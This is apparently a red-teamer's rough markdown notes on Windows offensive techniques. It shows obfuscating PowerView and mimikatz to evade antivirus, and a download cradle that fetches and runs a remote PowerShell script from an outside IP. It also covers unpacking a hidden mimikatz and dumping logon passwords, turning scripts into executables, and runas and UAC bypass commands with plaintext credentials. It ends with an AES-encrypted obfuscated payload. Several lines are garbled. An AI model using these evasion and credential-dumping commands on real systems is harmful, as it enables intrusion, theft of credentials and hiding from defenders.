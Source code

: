 # Aes encryption and Decryption of functions

```C#
shifted to aes_encryption.cs
```

# Shellcode loader for 

cn I load aes encypted shellcode from meterpreter into the thing

# trying to obfuscate powerview and mimikatz

https://www.cyberguider.com/bypassing-av-cat-vs-mouse/

Get-MpThreatDetection - this will list all the threats

pyobfuscation works with powerview

 https://github.com/CBHue/PyFuscation.

```
# python PyFuscation.py -fpv --ps powerup.ps1 
```

```
iex (New-Object Net.WebClient).DownloadString('http://10.10.6.12:8000/08012022_08_34_48.ps1');danger
```

a command to modify files in powershell
```
PS C:\> Get-Content D:\MultipleLineExamples.txt | Select -First 10 | Select -Last 1

get-content myfile.txt | select -first 1 -skip 9
```

# uncompressing mimikatz

```
Add-Type -AssemblyName System.IO.Compression.Filesystem
Add-Type -AssemblyName System.IO
$path = "Kitikat_2_2_1.zip"
$zipFile = Get-ChildItem $path -recurse -Filter "*.zip"
$rootArchive = [System.IO.Compression.zipfile]::OpenRead($zipFile.fullname)
$archivesLevel2 = New-object System.IO.Compression.ZipArchive ($rootArchive.Entries[0].Open())
$archivesLevel3 = New-object System.IO.Compression.ZipArchive ($archivesLevel2.Entries[0].Open())
$archivesLevel4 = New-object System.IO.Compression.ZipArchive ($archivesLevel3.Entries[0].Open())
$file =$archivesLevel4.Entries[0].Open()
$reader = New-Object IO.StreamReader($file)
$text = $reader.ReadToEnd()
iex $text
Hartford -Command '"privilege::debug" "sekurlsa::logonpasswords" "exit"' > take.txt
```



# converting powershell to exe

`Invoke-ps2exe .\unkitikat.ps1 .\bang.exe`




all done through sed

# fuzzy security

https://raw.githubusercontent.com/FuzzySecurity/PowerShell-Suite/master/Invoke-Runas.ps1

invokerunas giving error

```
C:\Users\m\Downloads>powershell "import-module .\invoke_runas.ps1;Invoke-runas"

cmdlet Invoke-Runas at command pipeline position 1
Supply values for the following parameters:
User: WIN10RED
Password: WinR3d@
Binary: C:\Windows\System32\cmd.exe 
LogonType: 0x1

[>] Calling Advapi32::CreateProcessWithLogonW

[+] Success, process details:

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
     18       4     1532       2252       0.02    400   1 cmd

```

can we pass with commands


-NoNewWindows start-process

can we again run the binary to get a new much more exploitable version of windows powershell?

This work :

```
C:\Users\m\Downloads>powershell "Start-Process C:\Windows\System32\cmd.exe -NoNewWindow"
Microsoft Windows [Version 10.0.19041.1415]
(c) Microsoft Corporation. All rights reserved.
```

```
$pass = convertTo-SecureString 'password@123' -AsPlainText -Force;$name="m";$cred = New-Object System.Management.Automation.PSCredential($name,$pass);Invoke-Command -Computer ARKHAM -ScriptBlock { whoami } -Credential $cred
```

UACbypass from here:

```
C:\Users\m\Downloads>powershell "import-module .\uace_bypass.ps1;Bypass-UAC -Method UacMethodSysprep"

[!] The current user is not part of the Administrator group!
```

otherway is to use https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

we can also create a exe that runs all the commands

using runas 

# working runas command

runas /user:HP "powershell Start-Transcript -Path C:\Users\m\testlog.txt;import-module 'C:\Users\m\invokemimi.ps1';Stop-Transcript"

Bypass-UAC -Method UacMethodTcmsetup

# using invoke-obfuscation

https://blog.geoda-security.com/2018/05/running-obfuscated-version-of-mimikatz.html

`Import-Module .\Invoke-obfuscation.psd1; Invoke-Obfuscation`

set a scriptblock

```
set ScriptBlock "sensationalism -Command coffee"
```
ENCODING > 5 (AES) > 

```
 ( [rUnTime.interOPseRvicEs.mARShAL]::PtRtoStRinGbStr( [RUNTIMe.intEroPSeRVIcEs.marsHal]::sECUrEsTringToBStR( $('76492d1116743f0423413b16050a5345MgB8AGcAdQB6AHMAaQBWAGcAMgB6AGIAegB2AE4AcABuADQAVwBBAFYAcgBRAHcAPQA9AHwANgAzAGEANABmADMAOQA1ADEANwAzADEAYgA3AGUAZQBkAGEAMgBiADMANAA1AGMANwBhAGYAYwBlAGEANAAyADAAMwA0AGMAMAAxADcAMQBmAGIAMgBhADMANQBlADcAMAA5ADcAZgAyADkAZgA2AGIAZQA0AGQAYQAzADMAYwA0ADMANwA1AGUAMwA1AGUAZgA2AGIAOQA3AGUANQAyAGIAZgAzAGEANQA0AGYAZABkAGYAMQBmADEANwBkADEAMwA1AGIAMgA1ADgAMABmADQAYwBmADIAMgBkAGUAYQA2AGYAMwBlADkAMAAyADAAYgA2AGQAMgA1AGMAMgA0AA==' |CoNVErttO-SecurestrinG  -Ke 8,235,214,3,211,95,255,197,77,221,129,59,109,255,134,188)) ) ) | &((GV '*MDr*').NAME[3,11,2]-JoIn'')
```